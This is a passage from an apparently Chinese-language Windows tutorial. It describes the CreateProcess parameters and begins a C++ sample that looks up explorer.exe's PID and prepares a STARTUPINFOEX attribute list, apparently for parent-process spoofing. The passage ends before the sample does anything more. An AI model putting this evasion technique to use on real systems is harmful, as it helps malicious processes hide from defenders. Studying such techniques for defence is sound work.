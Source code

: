 - `lpApplicationName`：可执行文件的名称。如果此参数为 NULL，则命令行参数在括号中指定的程序名称会被当作可执行文件名。`lpCommandLine` 参数不应包含路径信息；当 `lpApplicationName` 参数指定可执行文件的路径时， `lpCommandLine` 参数应包含应用程序的文件名部分（如，cmd.exe）。如果命令行字符串引用了带空格的路径名，则该字符串必须用引号括起来。
- `lpCommandLine`：命令行参数字符串。命令行字符串可以包含应用程序名称、命令行参数以及任何必要的引号。在这个参数中指定的字符串被传递给正在创建的进程。如果 `lpApplicationName` 参数为空，模块名的第一个字符串将被用来指定可执行模块的名称。
- `lpProcessAttributes`：进程句柄的安全属性（一般设置为 `NULL`）。
- `lpThreadAttributes`：线程句柄的安全属性（一般设置为 `NULL`）。
- `bInheritHandles`：指定新进程是否从调用进程继承句柄。
- `dwCreationFlags`：控制进程的创建方式，例如是否为新进程创建一个新的控制台窗口，以及新进程的优先级等。
- `lpEnvironment`：指定环境块的指针。这些变量用于新进程的环境块。如果此参数为 `NULL`，则新进程使用调用进程的环境。
- `lpCurrentDirectory`：字符串指针，指定新进程的当前目录。如果此参数为空，新进程使用与调用进程相同的当前目录。
- `lpStartupInfo`：指向一个 `STARTUPINFO` 结构的指针，该结构指定了新进程的主窗口特性。
- `lpProcessInformation`：指向一个 `PROCESS_INFORMATION` 结构的指针，该结构返回新进程的标识信息。



#### 代码示例

```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <psapi.h>

// 获取目标进程pid
DWORD GetPidByName(const char * pName) {
    PROCESSENTRY32 pEntry;
    HANDLE snapshot;

    pEntry.dwSize = sizeof(PROCESSENTRY32);
    snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if (Process32First(snapshot, &pEntry) == TRUE) {
        while (Process32Next(snapshot, &pEntry) == TRUE) {
            if (_stricmp(pEntry.szExeFile, pName) == 0) {
                return pEntry.th32ProcessID;
            }
        }
    }
    CloseHandle(snapshot);
    return 0;
}

int main(void) {  
    void * exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    // 初始化STARTUPINFOEX结构体
    STARTUPINFOEX info = { sizeof(info) };
    PROCESS_INFORMATION processInfo;
    SIZE_T cbAttributeListSize = 0;
    PPROC_THREAD_ATTRIBUTE_LIST pAttributeList = NULL;
    HANDLE hParentProcess = NULL;
    DWORD dwPid = 0;

    // 获取指定进程的PID
    dwPid = GetPidByName("explorer.exe");
    if (dwPid == 0)
        dwPid = GetCurrentProcessId();

    // 初始化进程线程属性列表
```